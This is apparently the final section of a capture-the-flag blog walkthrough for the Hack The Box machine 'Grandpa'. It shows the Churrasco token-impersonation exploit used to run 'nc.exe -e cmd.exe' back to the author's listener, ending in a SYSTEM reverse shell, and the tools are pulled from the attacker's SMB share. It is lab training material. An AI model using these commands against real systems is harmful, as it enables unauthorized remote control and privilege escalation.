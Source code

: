 ### Shell
I copied both churrasco which i renamed to gee.exe for ease of typing :) and the nc.exe to the `ADFS` folder

```sh
copy \\10.10.16.7\george\gee.exe .
copy \\10.10.16.7\george\gee.exe .
        1 file(s) copied.

copy \\10.10.16.7\george\nc.exe .
copy \\10.10.16.7\george\nc.exe .
        1 file(s) copied.
```
On my parrot box I will open a netcat listener on port 9002 and execute the Churrasco.exe on the box as below

```sh
.\gee.exe -d "c:\adfs\nc.exe -e cmd.exe 10.10.16.7 9002"
.\gee.exe -d "c:\adfs\nc.exe -e cmd.exe 10.10.16.7 9002"
/churrasco/-->Current User: NETWORK SERVICE
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x72c
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x724
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```
On my `nc` listener I have a Callback, and we are `nt authority\system`

```sh
┌─[✗]─[george@parrot]─[~/HTB/boxes/grandpa/share]
└──╼ $ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.14] 1038
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system

C:\WINDOWS\TEMP>
```
And thats the box. Thank you all for taking your time to read my blog post, stay tuned for the next!

Happy hacking!
